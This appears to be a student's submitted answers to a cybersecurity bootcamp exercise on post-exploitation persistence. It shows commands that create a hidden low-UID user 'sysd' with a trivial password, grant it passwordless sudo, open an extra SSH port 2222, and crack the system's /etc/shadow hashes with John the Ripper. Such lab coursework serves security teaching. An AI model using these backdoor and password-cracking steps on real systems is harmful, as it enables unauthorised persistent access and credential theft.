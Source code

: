 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - useradd --no-create-home sysd

2. Give your secret user a password: 
    - passwd sysd (password: sysd)

3. Give your secret user a system UID < 1000:
    - usermod -u 690 sysd

4. Give your secret user the same GID:
   - groupmod -g 690 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sysd ALL=(ALL) NOPASSWD: ALL

6. Test that `sudo` access works without your password:
    root:~\ $ sudo -l
    Matching Defaults entries for root on scavenger-hunt:
     env_reset, mail_badpass,
     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User root may run the following commands on scavenger-hunt:
     (ALL : ALL) ALL


**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    nano /etc/ssh/sshd_config
    added port 2222 under port 22
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - unshadow etc/passwd etc/shadow > passwords.txt
    - john passwords.txt
    - john --show passwords.txt

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

